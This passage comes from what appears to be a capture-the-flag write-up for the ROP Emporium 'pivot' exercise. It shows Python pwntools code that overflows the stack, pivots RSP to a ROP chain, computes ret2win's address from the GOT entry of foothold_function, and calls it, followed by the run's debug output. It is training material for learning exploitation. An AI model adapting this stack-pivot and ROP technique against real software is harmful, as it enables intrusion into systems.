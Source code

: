 ```python
info(f'Stack pivoting address at {hex(pivot_addr)}')

# Make the stack smashing payload to pivot to the ROP chain
# This will point RSP to the location where our ROP chain resides.
offset = 40
padding = b"A" * offset
stack_smash = b"".join([
    padding,
    pop_rax_ret,
    p64(pivot_addr),
    xchg_rax_rsp_ret
])

# ROP Chain that calculates the offset of ret2win relative to where foothold_function's GOT entry points to.
libpivot = ELF("./libpivot.so")
ret2win_offset = p64(libpivot.sym['ret2win'] - libpivot.sym['foothold_function'])
foothold_function_plt = p64(io.elf.plt['foothold_function'])
foothold_function_got = p64(io.elf.got['foothold_function'])

rop_chain = b"".join([
    foothold_function_plt, # Calculate the address of ret2win relative to foothold_function in libpivot.so with x64 assembly
    pop_rax_ret,           # Set RAX to the pointer to the GOT foothold_function
    foothold_function_got,
    pop_rbp_ret,           # Set RBP to the ret2win offset
    ret2win_offset,
    mov_rax_mrax,          # Set RAX to the GOT foothold_function
    add_rax_rbp,           # Add the offset to the GOT foothold_function
    call_rax               # Call ret2win
])

# Send the ROP chain
io.sendline(rop_chain)

# Smash the stack
io.recvuntil(b"Now please send your stack smash")
io.sendline(stack_smash)
io.recvall()
```

```
$ python3 exploit.py
[+] Starting local process './pivot' argv=[b'./pivot'] : pid 2916
[DEBUG] Received 0xae bytes:
    b'pivot by ROP Emporium\n'
    b'x86_64\n'
    b'\n'
    b'Call ret2win() from libpivot\n'
    b'The Old Gods kindly bestow upon you a place to pivot: 0x7f229c51ef10\n'
    b'Send a ROP chain now and it will land there\n'
    b'> '
[*] Stack pivoting address at 0x7f229c51ef10
[DEBUG] PLT 0x830 puts
[DEBUG] PLT 0x840 fclose
[DEBUG] PLT 0x850 fgets
[DEBUG] PLT 0x860 fopen
[DEBUG] PLT 0x870 exit
[DEBUG] PLT 0x880 __cxa_finalize
[*] '/home/kali/ctf/rop-emporium/pivot/x64/libpivot.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
```